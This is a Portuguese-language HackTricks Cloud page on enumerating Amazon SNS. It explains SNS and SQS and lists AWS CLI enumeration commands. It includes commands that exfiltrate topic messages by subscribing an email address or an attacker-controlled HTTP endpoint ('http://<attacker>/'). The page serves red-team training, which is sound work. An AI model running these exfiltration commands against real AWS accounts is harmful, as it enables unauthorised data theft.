 # AWS - SNS Enum

{% hint style="success" %}
Aprenda e pratique AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo no Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo no telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) é descrito como um **serviço de mensagens totalmente gerenciado**. Ele suporta tanto a comunicação **aplicação-para-aplicação** (A2A) quanto **aplicação-para-pessoa** (A2P).

As principais características para a comunicação A2A incluem **mecanismos de publicação/assinatura (pub/sub)**. Esses mecanismos introduzem **tópicos**, cruciais para permitir mensagens **push** de alta taxa de transferência e **muitos-para-muitos**. Esse recurso é altamente vantajoso em cenários que envolvem sistemas distribuídos, microsserviços e arquiteturas serverless orientadas a eventos. Ao aproveitar esses tópicos, sistemas publicadores podem distribuir mensagens de forma eficiente para uma **ampla gama de sistemas assinantes**, facilitando um padrão de mensagens fanout.

### **Diferença com SQS**

**SQS** é um serviço baseado em **fila** que permite comunicação ponto-a-ponto, garantindo que as mensagens sejam processadas por um **único consumidor**. Ele oferece **entrega pelo menos uma vez**, suporta filas padrão e FIFO, e permite retenção de mensagens para tentativas e processamento atrasado.\
Por outro lado, **SNS** é um serviço baseado em **publicação/assinatura**, permitindo comunicação **um-para-muitos** ao transmitir mensagens para **múltiplos assinantes** simultaneamente. Ele suporta **vários endpoints de assinatura como email, SMS, funções Lambda e HTTP/HTTPS**, e fornece mecanismos de filtragem para entrega de mensagens direcionadas.\
Enquanto ambos os serviços permitem o desacoplamento entre componentes em sistemas distribuídos, SQS foca na comunicação em fila, e SNS enfatiza padrões de comunicação orientados a eventos e fan-out.

### **Enumeração**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Note que se o **tópico for do tipo FIFO**, apenas assinantes usando o protocolo **SQS** podem ser usados (HTTP ou HTTPS não podem ser usados).

Além disso, mesmo que o `--topic-arn` contenha a região, certifique-se de especificar a região correta em **`--region`** ou você receberá um erro que parece indicar que você não tem acesso, mas o problema é a região.
{% endhint %}

#### Acesso Não Autenticado

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Escalação de Privilégios

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Pós-Exploração

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistência

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Referências

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Aprenda e pratique AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo no Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo no Telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
